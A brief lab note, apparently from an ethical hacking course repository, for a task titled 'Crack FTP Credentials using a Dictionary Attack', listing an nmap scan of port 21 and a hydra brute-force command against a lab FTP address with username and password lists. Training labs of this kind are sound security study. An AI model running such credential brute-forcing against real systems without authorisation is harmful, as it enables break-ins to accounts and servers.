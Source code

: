 # 13 - Hacking Web Servers

## Module 13 - Hacking Web Servers

### **Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**

* nmap -p 21 **\<Target IP>**
* **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**
